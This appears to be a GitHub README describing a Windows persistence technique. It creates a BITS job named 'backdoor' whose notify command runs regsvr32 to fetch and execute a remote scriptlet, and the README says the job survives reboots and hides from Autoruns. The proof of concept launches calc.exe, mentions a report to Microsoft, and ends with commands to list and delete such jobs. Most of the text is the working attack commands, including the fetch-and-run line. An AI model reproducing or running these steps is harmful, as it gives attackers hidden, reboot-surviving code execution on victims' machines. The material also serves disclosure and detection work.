 # bitsadmin_learn
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

Author: aspiggy


###POC
(1) First we should have the administrator's right.

(2) Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3) Then it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4) What's more,after we restart the system,the command to start a calc.exe runs again and again.


###Impact of the issue
Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

###Detect
Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```

